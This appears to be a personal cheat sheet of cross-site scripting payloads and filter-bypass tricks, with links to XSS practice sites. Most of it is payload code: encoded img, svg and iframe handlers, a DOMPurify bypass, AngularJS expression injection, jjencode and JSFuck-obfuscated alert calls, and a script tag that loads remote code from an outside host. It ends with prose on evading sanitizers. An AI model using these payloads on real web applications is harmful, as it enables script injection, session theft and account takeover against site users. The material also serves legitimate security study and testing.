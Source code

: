 # XSS

[http://www.xssgame.com/](http://www.xssgame.com/) : [http://www.xssgame.com/wmOM2q5NJnZS](http://www.xssgame.com/wmOM2q5NJnZS)\
[https://xss.pwnfunction.com/](https://xss.pwnfunction.com/)\
[https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/](https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/)\
[https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf](https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf)\




Check how values are sanitized by the server\
How many ways you can raise an error

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:a
```

Check which framework is used in UI based on that create payloads such as in angular to show alert you use interpolation;

## Xss filter bypass >\&lt;script\&gt;alert(1);\&lt;/script\&gt;

Some ideas:

1. Check if the encoding happens recursively. if you provide multiple '<', will they all be encoded?
2. Try different types of encoding (e.g. URL encoding, double URL encoding) and see how the application treats them.
3. There are cases where the application normalizes Unicode characters (have a look here [Unicode Normalization Bypass](https://hackerone.com/reports/639684))

## Markdown XSS payload

[https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md](https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md)

## Error produce

"/\</script>



Alert(1) to win: [https://github.com/1bitrs/alert-1-to-win](https://github.com/1bitrs/alert-1-to-win)\
\
Payloads:\


```
confirm
prompt
alert
```

```
Encoded Characters

<img src onerror=j&#97v&#97script&#x3A;&#97lert(1)>
<image src onerror=alert(8)>
<image/src/onerror=alert(8)>

HTML character encoding: https://www.rapidtables.com/web/html/html-codes.html
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">
<img src="xss" onerror="eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 88, 83, 83, 39, 41))">
```

<pre><code>// Script
&#x3C;script/src=&#x26;#100&#x26;#97&#x26;#116&#x26;#97:text/&#x26;#x6a&#x26;#x61&#x26;#x76&#x26;#x61&#x26;#x73&#x26;#x63&#x26;#x72&#x26;#x69&#x26;#x000070&#x26;#x074,&#x26;#x0061;&#x26;#x06c;&#x26;#x0065;&#x26;#x00000072;&#x26;#x00074;(1)>&#x3C;/script>
&#x3C;script src=//brutelogic.com.br/1.js> 
<strong>
</strong></code></pre>

```
// href

------------------------------------
DOMPurify.sanitize
<a id=ok href="cid:alert(1337)" />
%3Ca%20id%3Dok%20href%3D%22cid%3Aalert(1337)%22%20%2F%3E
setTimeout(ok, 2000)
----------------------------------
<a href="javascript:alert('XSS')">Click me</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
```

```
// iframe
<iframe  src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<iframe src="javascript:alert('XSS')"></iframe>
<iframe/onload=&#97&#108&#101&#114&#116(1)>
```

```
// svg

<svg><script xlink:href=data:,alert(1) /> 
<svg/onload=alert(8)>
<svg onload="alert('XSS')"></svg>
```

```
// input

<input type="button" value="Click me" onclick="alert('XSS')">
<input type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />

```

```
// Framework expression

AngularJS {{alert('XSS')}}
```

```
// form

<form action="javascript:alert('XSS')">
    <input type="submit" value="Submit">
</form>

```

```
// JSON

<script>'({"userdata":"'|alert(1)//"})</script>
use pipe operator to neglect garbage

comment
//
<!--

```

```
// Special character JS, usefull once code is outside of console, or code

it is recommended to use jjencode, which can be done in 537 characters.

https://utf-8.jp/public/jjencode.html
```

```
// alert jjencode

$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+")"+"\"")())();

");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```

```
/[A-Za-z0-9]/g, ''

'[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%5B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%28%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%5B%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%29%28%29
```

```
s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
<script> var email = ''|new Function`a${'alert'+String.fromCharCode`40`+1+String.fromCharCode`41`}`|''; </script>

[]["pop"]["constructor"]('alert(1)')()
[]["&#112;&#111;&#112;"]["&#99;&#111;&#110;&#115;&#116;&#114;&#117;&#99;&#116;&#111;&#114;"]('&#97;&#108;&#101;&#114;&#116;(1)')()

"|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"
"|[]["p\\x6fx6fp"]["c\\x6fx6fnstr\\x75x75ct\\x6fx6fr"]('\\x61x61l\\x65x65rt(1)')()|"

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/\"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

```

```
// eval: 
eval(location.href.slice(55,66))
```

```
// Generate Error

"
\
</script>
```

## Tips

Code-split : | , ; , enter + code, +, -, /, , , %,^,&,\*, <, >

Break the code inside the quotation

```
<script>console.log("</script>")</script>

Depending on situation
```

If JavaScript code sanitizes `<` and `>` characters, it indicates that it's trying to prevent HTML injection and potentially XSS attacks. However, there are ways attackers can still attempt XSS, such as using alternative encodings or bypassing the sanitizer logic. Here are a few techniques they might try:

1. **Using Hex Encoding**: Instead of `<` and `>`, attackers might try using their hexadecimal equivalents (`%3C` for `<` and `%3E` for `>`). Some sanitizers may miss these encoded forms.
2. **Using Unicode Encoding**: Attackers might use Unicode encoding to represent `<` and `>` characters. For example, `\u003C` for `<` and `\u003E` for `>`.
3. **Using Alternative Tags**: Instead of `<script>` tags, attackers might try using alternative tags that the sanitizer may not detect as executable code. For example, `<img>` tags with JavaScript in the `src` attribute, or even uncommon HTML tags.
4. **Event Handlers**: Attackers can try using event handlers like `onmouseover` or `onerror` to execute JavaScript code without directly injecting `<script>` tags.
5. **CSS Injection**: Although less common, attackers might try injecting CSS code that includes JavaScript execution, such as using the `expression()` function in old versions of Internet Explorer.
